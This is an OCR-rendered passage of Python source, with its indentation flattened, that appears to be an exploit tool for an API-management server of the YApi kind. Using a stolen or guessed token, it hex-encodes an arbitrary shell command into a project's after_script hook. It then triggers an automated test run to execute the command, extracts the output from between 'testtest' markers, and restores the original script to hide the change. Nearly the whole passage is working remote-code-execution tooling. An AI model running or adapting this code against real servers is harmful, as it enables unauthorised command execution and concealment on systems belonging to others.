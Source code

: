 ```python

            if data['message']['len'] > 0:
            logger.debug('Test Result Found: %r', response.url)
            yield i
            except requests.exceptions.Timeout:
            logger.debug('id=%d timeout', i)
            pass


            def update_project(target, token, project_id, command):
            url = urljoin(target, '/api/project/up')

            command_hex = command.encode().hex()
            script = script_template % command_hex
            response = requests.post(url,
            params={'token': token},
            json={'id': project_id, 'after_script': script},
            # proxies={'https': 'https://127.0.0.1:8085', 'http': 'https://127.0.0.1:8085'},
            # verify=False,
            )
            data = response.json()
            return data['errcode'] == 0


            def run_auto_test(target, token, col_id):
            url = urljoin(target, '/api/open/run_auto_test')

            response = requests.get(url, 
            params={'token': token, 'id': col_id, 'mode': 'json'},
            # proxies={'https': 'https://127.0.0.1:8085', 'http': 'https://127.0.0.1:8085'},
            # verify=False,
            )

            try:
            data = response.json()
            return data['list'][0]['res_body'][8:-8]
            except (requests.exceptions.JSONDecodeError, KeyError, IndexError, TypeError) as e:
            g = re.search(br'testtest(.*?)testtest', response.content, re.I | re.S)
            if g:
            return g.group(1).decode()
            else:
            return None


            def clear_project(target, token, project_id, old_after_script):
            url = urljoin(target, '/api/project/up')
            response = requests.post(url, params={'token': token}, json={'id': project_id, 'after_script': old_after_script})
            data = response.json()
            return data['errcode'] == 0


            @click.group()
            @click.option('--debug', 'debug', is_flag=True, type=bool, required=False, default=False)
            def cli(debug):
            if debug:
            logger.setLevel('DEBUG')


            @cli.command('enc')
            @click.argument('data', type=str, required=True)
            def cmd_enc(data: str):
```